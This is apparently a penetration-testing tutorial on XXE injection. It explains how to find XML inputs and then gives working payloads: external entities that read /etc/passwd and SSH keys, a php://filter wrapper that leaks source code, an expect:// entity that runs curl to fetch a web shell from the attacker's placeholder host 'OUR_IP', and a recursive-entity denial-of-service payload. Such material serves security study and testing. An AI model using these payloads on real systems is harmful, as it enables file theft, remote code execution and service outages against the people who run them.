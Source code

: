# Local File Disclosure
***
#### In certain cases, such as when a web application trusts unfiltered XML data from user input, we may be able to reference an external XML DTD document and define new custom XML entities. With that we could exfiltrate sensitive data from local files by defining external entities.

### Identifying
#### In order to identify potential XXE vulnerabilities we should find pages that accept an XML user input. For instance, we can intercept an HTTP request using Burp and check if it is sending data in an XML format to the web server.
#### Supposing that the web application uses outdated XML libraries, and it does not include any filter or sanitization on our XML input , we may be able to exploit it to read local files.

#### If we find any value of an element, from the data sent in an XML format, reflected on the response from the web server , we should try and inject to those elements.
#### Example:
#### First we define a new entity and then use it as a variable in the reflected element to see whether it gets replaced with the value we set.
```xml
<!DOCTYPE email [
  <!ENTITY company "Rogue Company">
]>
```
#### **NOTE:** When the `DOCTYPE` is already declared in the XML request, we should just add the `ENTITY`element to it.
#### Then we just need to reference with `&company`:
```xml
<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE email [
  <!ENTITY company "Rogue Company">
]>
<root>
  <name>Leet</name>
  <tel></tel>
  <email>&company;</email>
  <messages>
   1337
  </messages>
</root>
```
#### **NOTE:** While some web applications may default to a JSON format in HTTP request, they may accept other formats, including XML. In order to test that we can change the `Content-Type` header to `application/xml`and [convert](https://www.convertjson.com/json-to-xml.htm) the JSON data to XML.

### Reading Sensitive Files
#### After checking if we can define new internal XML entities we may try to define external XML entities by just adding the `SYSTEM` keyword and defining the external reference path after it :
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```
#### This enables us to read the content of sensitive files, such as configuration files that amy contain passwords or other sensitive files like an `id_rsa`SSH key of a specific user.
#### **NOTE**: certain Java web applications may also let us specify a directory instead of a file, allowing us to get a directory listing instead for locating sensitive files.

### Reading Source Code
#### With local file disclosure we may also obtain the source code of the web application, allowing us to perform a `Whitebox Penetration Test` or discovering secret configurations like database passwords or API keys.
#### One important thing to consider is that when we are referencing a file that  is not in a proper XML format , it will fail to be referenced as an external XML entity. This happens because when a file has some of XML's special characters (e.g `</>/&`), it will break the external entity reference.
#### An interesting workaround for that is using PHP wrapper filters, so we can encode to base64 certain resources and consequently it won't break the XML format. For instance , we could use `php://filter/` wrapper instead of `file://` as our reference. With this filter, we can specify the `convert.base64-encode`encoder a sour filter, an then add an input resource:
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```
#### **NOTE:** This feature will only work with PHP web applications.

### Remote Code Execution with XXE
#### To perform a RCE we could look for ssh keys, or attempt to utilize a hash stealing trick in Windows-based web applications, by making call to our server. Another way is to use the `PHP://expect` filter on PHP-based web application (this method requires the PHP expect module to be installed and enabled)
#### If it directly prints its output , then we can execute basic commands such as  `expect://id`.
#### We may also fetch a web shell from our server and write it to the web app, to later interact with it to execute commands.
```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

#### As we can observe all spaces have been replaced with $IFS, to avoid breaking the XML syntax. Other characters such as `|`, `>` and `{` may also break the code , so we should avoid them.

### Other XXE Attacks
#### It is also possible to test for SSRF through XXE vulnerabilities, enumerating locally open ports and access their pages and access other restricted web pages.
#### Lastly, we can use the XXE attacks to perform a Denial of Service (DoS) to the hosting web server by using the following payload:
```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DoS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
```

#### The payload above defines the `a0` entity as DoS, references it in a1 multiple times, references a1 in a2, and so on until the back-end server's memory runs out doe to self-reference loops.